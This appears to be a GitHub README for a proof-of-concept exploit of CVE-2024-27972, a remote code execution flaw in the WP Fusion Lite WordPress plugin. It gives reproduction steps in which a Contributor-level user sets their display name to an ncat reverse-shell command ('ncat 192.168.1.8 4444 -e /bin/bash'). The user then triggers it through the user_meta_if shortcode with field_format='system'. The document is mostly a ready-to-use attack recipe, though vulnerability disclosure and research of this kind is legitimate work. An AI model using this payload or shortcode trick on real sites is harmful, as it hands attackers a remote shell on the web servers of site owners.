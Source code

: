 # CVE-2024-27972-Poc
CVE-2024-27972 WP Fusion Lite &lt;= 3.41.24 - Authenticated (Contributor+) Remote Code Execution
https://patchstack.com/database/vulnerability/wp-fusion-lite/wordpress-wp-fusion-lite-plugin-3-41-24-remote-code-execution-rce-vulnerability

File: https://github.com/truonghuuphuc/CVE-2024-27972-Poc/blob/main/wp-fusion-lite.3.41.24.zip

File: includes\class-shortcodes.php
![image](https://github.com/truonghuuphuc/CVE-2024-27972-Poc/assets/20487674/ee6e468a-b8e4-424a-92b5-68380c7af629)

Show list field ``` echo var_dump($user_meta = wp_fusion()->user->get_user_meta( $user_id )); ```

call_user_func: https://www.php.net/manual/en/function.call-user-func.php

Short code user_meta_if: https://wpfusion.com/documentation/getting-started/shortcodes/#displaying-content-based-on-user-meta-values

 [user_meta_if field="display_name" field_format="system"] Exploit [/user_meta_if]

 ![image](https://github.com/truonghuuphuc/CVE-2024-27972-Poc/assets/20487674/c7f03ea8-fd45-4f45-a972-ff20c37d274b)


Steps to Reproduce:
1. Login account Contributor+ and change display name ``` ncat 192.168.1.8 4444 -e /bin/bash ```
![image](https://github.com/truonghuuphuc/CVE-2024-27972-Poc/assets/20487674/f247f621-501e-4bb0-819b-ec6d0321b7ee)

2. Create Post and use shortcode ``` [user_meta_if field="display_name" field_format="system"] Exploit [/user_meta_if] ```
![image](https://github.com/truonghuuphuc/CVE-2024-27972-Poc/assets/20487674/bd25e369-d94e-4b93-a9af-e9abbefe2256)



Poc:

https://github.com/truonghuuphuc/CVE-2024-27972-Poc/assets/20487674/8c92e910-c95f-41f5-9c9d-051b08c5e242
